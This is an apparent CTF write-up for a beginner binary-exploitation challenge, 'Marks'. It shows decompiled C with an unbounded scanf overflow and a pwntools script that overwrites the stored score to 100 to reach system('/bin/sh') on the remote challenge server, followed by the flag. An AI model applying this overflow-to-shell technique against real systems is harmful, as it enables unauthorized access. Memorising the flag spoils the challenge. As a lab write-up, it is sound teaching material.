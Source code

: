 # Beginner/Marks

Score 100/100 to pass this exam

Attachments: [marks.zip](./marks.zip)

nc 34.70.212.151 8004

## Solution

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  char v5[32]; // [rsp+0h] [rbp-70h] BYREF
  __int64 v6; // [rsp+20h] [rbp-50h] BYREF
  __int64 v7; // [rsp+60h] [rbp-10h] BYREF
  unsigned __int64 v8; // [rsp+68h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  v3 = time(0LL);
  srand(v3);
  puts("Enter your details to view your marks ...");
  printf("Roll Number : ");
  __isoc99_scanf("%d", &v7);
  printf("Name : ");
  __isoc99_scanf("%s", v5);
  puts("Please Wait ...\n");
  usleep(0xF4240u);
  HIDWORD(v7) = rand() % 75;
  printf("You got %d marks out of 100\n", HIDWORD(v7));
  puts("Any Comments ?");
  __isoc99_scanf("%s", &v6);
  puts("Thanks !");
  if ( HIDWORD(v7) == 100 )
  {
    puts("Cool ! Here is your shell !");
    system("/bin/sh");
  }
  else
  {
    puts("Next time get 100/100 marks for shell :)");
  }
  return 0;
}
```

Use `v6` to overwrite `v7`.

```python
from pwn import *

context.log_level = 'debug'

# p = process('./chal')
p = remote('34.70.212.151', 8004)

p.sendlineafter(b':', b'100')
p.sendlineafter(b':', b'A'*0x8)
p.sendlineafter(b'?', b'A'*0x44+p32(100))

p.interactive()
```

## Flag

```plaintext
flag{Y0u_ju57_0v3rfl0wed_y0ur_m4rk5}
```

